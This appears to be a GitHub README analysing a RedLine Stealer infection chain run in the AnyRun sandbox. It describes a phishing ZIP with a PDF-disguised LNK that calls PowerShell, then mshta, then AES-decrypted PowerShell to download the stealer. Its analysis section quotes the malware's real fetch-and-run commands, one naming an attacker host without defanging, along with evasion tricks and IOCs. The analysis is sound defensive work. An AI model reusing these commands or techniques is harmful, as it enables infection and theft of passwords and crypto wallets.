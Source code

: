 # RedLine Stealer infection chain analysis using AnyRun Sandbox

## Overview of RedLine Stealer :

- RedLine Stealer, an infostealer malware first identified in March 2020, specializes in extracting valuable information and assets from compromised systems, primarily targeting end users. Commonly distributed through compromised software downloads, phishing attempts, and drive-by downloads, RedLine Stealer focuses on pilfering insecure passwords and cryptocurrency wallets. Beyond these targets, it possesses the capability to harvest an array of system information, including IP addresses, usernames, keyboard layouts, and installed security solutions. Moreover, it can serve as a vehicle for distributing additional malware, such as ransomware, exacerbating the potential damage.
 
- More information on the RedLine Stealer and its trends can be found in ANY.RUN’s Malware Trends. RedLine is top trending malware in 2023.

- https://any.run/malware-trends/redline

![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/da455b4c-dd0a-46ec-a629-62b92140dbef)

## RedLine Infection Vectors :

- RedLine's versatility is evident in its diverse delivery mechanisms, It is used in multiple smaller campaigns by individuals who have purchased the malware from the underground malware forums. Due to this, there are a wide range of known infection vectors. Only few of them are stated below:
 
  - Trojanizing as popular services like Telegram, Signal, or Discord to create seemingly legitimate installers.
  - Email phishing campaigns aimed at luring victims into downloading the malware.
  -	Exploitation of Google Ads while hosting Trojanized or fake websites.
  -	Social engineering tactics targeting digital artists using Non-Fungible Tokens (NFTs).
  -	Distribution through malware loaders, expanding its reach across various compromised systems.

## Sample Collection and Preparation for Analysis :

### AnyRun :

> https://app.any.run/tasks/5a51d459-6caa-47dd-9b27-715ca2ec92bb/             

> https://app.any.run/tasks/6212356e-6b48-4e80-b0fc-8c3dd5111e1d/

### MalwareBazaar

> https://bazaar.abuse.ch/sample/3086ac8861aaccdf3dc45f3b1380b6cd70169c7d9fc16f098f5a1d08736fed61/

## Analysis :

- The infection chain unfolds as follows:
 
  ***`LNK -> PS -> mshta.exe (URL1) -> PS -> cmd.exe -> PS (obfuscate + b64 + AES-decrypt) -> URL2 (exe)`***
 
- The initial payload is distributed via a phishing email containing a ZIP file. Once the ZIP file is extracted, you'll come across an LNK file that appears as a PDF symbol.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/659ea9a9-24b8-4432-b310-e7ede57cf94a)

- Following the execution of the LNK file, it utilizes PowerShell to initiate the execution of mshta.exe. 

- Mshta.exe is a Windows-native binary designed to execute Microsoft HTML Application (HTA) files. As its full name implies, Mshta can execute Windows Script Host code (VBScript and JScript) embedded within HTML in a network proxy-aware fashion.

- To avoid detection, attackers are using the path (\W*\2\msh*e) instead of the standard path - C:\Windows\System32\mshta.exe.

  **Command Line -** ***`"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" \W*\\\*2\\\msh*e ('http'+'://thanhancompany.com/ta/line'+'.hta')`***

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/d2256dce-b51b-4bfd-94b0-aa409bafb609)

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/faa42324-2cd6-4106-a125-0ef89810469d)

- The mshta.exe establishes a connection with the URL specified in the LNK file and execute the hta file.
 
  **Command Line -** ***`"C:\Windows\System32\mshta.exe" http[://]thanhancompany[.]com[/]ta[/]line[.]hta`***

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/4933084e-1cfa-4cb4-af7b-f3018f39fb01)

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/b2d33313-9731-4fd6-b750-4c146b340612)

- The HTA script uses the VBScript ‘chr’ function to obfuscate by translating ASCII codes into characters. VBScript often employs the 'chr' function to obfuscate its code, where 'chr' converts Ascii codes to characters e.g. Chr(65) will return 'A'. 

-	In this script it uses simple subtraction before converting the character to Ascii using chr.

  **Reference Link -** https://isvbscriptdead.com/vbs-obfuscator/
 
-	Two methods can deobfuscate this script:
 
      1. Using CyberChef.
 
      2. Save the HTA content as a new file. Replace instances of 'Execute' with 'Wscript.Echo' within the resulting VBS file. Running the modified file using cscript.exe reveals the deobfuscated script.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/0957627c-5657-411d-9db2-9058a56f6ef4)

-	In the AnyRun sandbox you will get you the deobfuscated script from the following Process 3008.

-	This deobfuscated hta script contains 2nd stage obfuscated PowerShell script which utilize AES decryption along with Gzip decompress and then execute using cmd.exe.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/336ba7ba-1ee3-40bf-b4f2-75b057854d95)

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/a3591110-db01-4956-8c4c-29df047907a4)


-	We will dump 2nd stage PowerShell script simply writing Write-Host at the bottom of the script and execute it.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/70ec5fcf-f104-4422-a71e-027cfe7afca9)

-	2nd stage PowerShell first opens Blank pdf and after then connects to the below URL and download ReadiLine Stealer and execute it.

   **URL –** ***`https[://]hiqsolution[.]com`***

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/2e102262-fb99-4f81-b5d3-6986cb33dadc)

-	Below snap shows the blank pdf opened after 2nd stage execution.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/d71d80a6-ba56-49ef-8ec3-ea3197f89e8b)


## IOC’s :

AnyRun Report (https://any.run/report/1bf287baf71f2a0872005e73399685df6b3a2b27cb2f27511deb4bdf566fbe67/5a51d459-6caa-47dd-9b27-715ca2ec92bb?_gl=1*cmzv32*_gcl_au*NjY1NzUzNzkuMTY5NzIxMzg3MA..*_ga*MTk4MTUxNzQ0LjE2NzQ4MzE3MjM.*_ga_53KB74YDZR*MTcwMzgzNjIwNy4zNy4xLjE3MDM4Mzg2MTYuMC4wLjA)


## References :

- 
- 
